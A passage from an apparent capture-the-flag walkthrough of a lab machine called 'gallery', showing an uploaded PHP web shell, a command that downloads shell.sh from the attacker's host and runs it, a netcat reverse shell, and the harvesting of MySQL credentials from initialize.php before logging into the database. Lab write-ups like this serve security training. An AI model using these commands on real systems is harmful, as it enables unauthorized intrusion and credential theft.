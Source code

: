```console
❯ curl http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php\?cmd\=whoami
<pre>www-data
</pre>%
```
Uploaded a shell file from local machine.
```url
http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=curl%20http://10.8.0.150/shell.sh%20%3E%3E%20/tmp/shell.sh
```
```console
❯ curl http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php\?cmd\=ls%20-l%20/tmp
<pre>total 4
-rw-r--r-- 1 www-data www-data 41 Oct 18 06:38 shell.sh
</pre>
```
Give execution permission to the file.<br />
(http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=chmod%20+x%20/tmp/shell.sh)<br/>

Then executed file with <br/>
(http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=bash%20/tmp/shell.sh)<br />

Got a reverse shell
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.58.133] 51058
bash: cannot set terminal process group (714): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gallery:/var/www/html/gallery/uploads$
```
On reading initialize.php in the remote machine found user and password for mysql
```console
www-data@gallery:/var/www/html/gallery$ cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");

```
Logged into mysql
```console
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 191
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gallery_db         |
```